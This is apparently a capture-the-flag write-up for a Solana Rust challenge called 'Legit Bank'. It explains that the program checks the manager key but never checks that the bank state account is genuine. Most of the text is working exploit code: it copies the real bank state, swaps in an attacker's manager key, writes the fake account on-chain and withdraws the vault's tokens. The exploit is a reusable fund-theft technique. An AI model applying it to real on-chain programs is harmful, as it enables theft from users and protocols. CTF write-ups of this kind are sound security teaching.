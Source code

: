 # Legit Bank

The `invest`-instruction enables the bank manager to withdraw arbitrary funds from the vault, and is obviously only supposed
to let the bank manager withdraw those funds. This is ensured, by checking that `manager_info`'s pubkey matches the bank
manager pubkey on the bank state and that account has signed the transaction:
```rust
// verify that manager is correct
let bank: Bank = Bank::try_from_slice(&bank_info.data.borrow())?;
if bank.manager_key != manager_info.key.to_bytes() {
    return Err(0xbeefbeef.into());
}
```
 
However there are no checks on the bank state
itself. This means we can craft our own bank state by just copying the old bank state, replacing the bank manager with our 
own account, and steal all funds:

```rust
let client = localhost_client();
let payer = read_keypair_file("rich-boi.json").unwrap();
let mut env = RemoteEnvironment::new(localhost_client(), payer);

let bank_program = Pubkey::from_str("Bank111111111111111111111111111111111111111").unwrap();
let flag_mint = Pubkey::from_str("F1agMint11111111111111111111111111111111111").unwrap();
let flag_program = Pubkey::from_str("F1ag111111111111111111111111111111111111111").unwrap();
let fake_manager = keypair(0);
let fake_bank = random_keypair();

// create account to steal token to
let flag_token_acc = env.get_or_create_associated_token_account(&fake_manager, flag_mint);

// fetch bank (by querying for all accounts belonging to the bank program with the correct size)
let (_, bank_account) = client
    .get_program_accounts_with_config(
        &bank_program,
        RpcProgramAccountsConfig {
            filters: Some(vec![RpcFilterType::DataSize(BANK_LEN)]),
            ..RpcProgramAccountsConfig::default()
        },
    )
    .unwrap()[0]
    .clone();

// set manager key to our own key
let mut bank = Bank::try_from_slice(&bank_account.data).unwrap();
bank.manager_key = fake_manager.pubkey().to_bytes();

// write fake bank to chain
env.create_account_with_data(&fake_bank, bank.try_to_vec().unwrap());
println!("written fake bank data to {}", fake_bank.pubkey());

// withdraw token with fake admin key
env.execute_as_transaction(
    &[Instruction {
        program_id: bank_program,
        accounts: vec![
            AccountMeta::new(fake_bank.pubkey(), false),
            AccountMeta::new(Pubkey::new(&bank.vault_key), false),
            AccountMeta::new(Pubkey::new(&bank.vault_authority), false),
            AccountMeta::new(flag_token_acc, false),
            AccountMeta::new_readonly(fake_manager.pubkey(), true),
            AccountMeta::new_readonly(spl_token::ID, false),
        ],
        data: BankInstruction::Invest { amount: 1 }.try_to_vec().unwrap(),
    }],
    &[&fake_manager],
)
.print();

// get flag
env.execute_as_transaction(
    &[Instruction {
        program_id: flag_program,
        accounts: vec![
            AccountMeta::new_readonly(flag_token_acc, false),
            AccountMeta::new_readonly(fake_manager.pubkey(), true),
        ],
        data: vec![],
    }],
    &[&fake_manager],
)
.print_named("flag");
```
